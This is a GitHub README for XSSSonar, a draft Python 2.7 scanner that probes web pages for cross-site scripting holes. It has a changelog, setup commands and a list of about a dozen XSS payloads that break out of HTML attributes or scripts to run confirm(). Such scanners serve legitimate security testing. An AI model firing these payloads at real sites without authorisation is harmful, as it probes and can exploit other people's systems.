

# XSSSonar

Little tool to look for XSS vulnerabilities in a web page.

## Info

This code is just a draft. There are some errors still to be corrected, and sometimes false positives occur. 
Test with Python 2.7.9 on Debian Jessie. I'll write it for Python 3.x maybe. 

## ChangeLog

<strong>0.1.6</strong> 
[-] Fixed some bugs 
[-] Added scan on list of POST parameters 
[-] Added option to assign default value to a POST parameter 
[-] Added help function 
 
<strong>0.1.5a</strong> 
[-] Fixed some bugs 
[-] Less than 400 lines of code 
 
<strong>0.1.5</strong> 
[-] Added scan on POST parameters 
[-] Changed name 
 
<strong>0.1.4a</strong> 
[-] Added stopwatch to know the time spent to check each URL 
[-] Same features with 1500 lines of code missing 
 
<strong>0.1.4</strong> 
[-] Check a single URL or a list.txt of sites

## List of XSS Payloads

    '">"'>
    "> 
    '">"'><svg onload=confirm`XSS`>
    "',;</script>
    '><svg onload=confirm`XSS`>
    "><svg/onload=confirm`XSS`//
    "><details/open/ontoggle=confirm`XSS`>
    " onfocus="confirm`XSS`" autofocus=""
    " onclick="confirm`XSS`"
    " onmouseover="confirm`XSS`"
    \"-confirm`XSS`//
    \'-confirm`XSS`//
    "-confirm`XSS`-"'-confirm`XSS`-'

## To start

pip install fake-useragent 
python xsssonar.py
